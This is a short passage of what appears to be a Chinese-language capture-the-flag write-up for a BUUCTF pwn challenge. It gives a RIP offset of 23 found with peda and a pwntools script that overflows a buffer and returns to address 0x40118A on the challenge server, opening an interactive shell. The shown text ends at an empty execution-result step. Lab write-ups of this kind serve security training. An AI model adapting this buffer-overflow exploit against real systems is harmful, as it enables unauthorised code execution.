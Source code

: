 ![](截图\6.3.png)

3. peda算出rip偏移23

**exp**

```python
from pwn import *
p = remote('node3.buuoj.cn','29938')
payload = "a" * 23 + p64(0x40118A)
p.sendline(payload)
p.interactive()
```

4. 执行结果
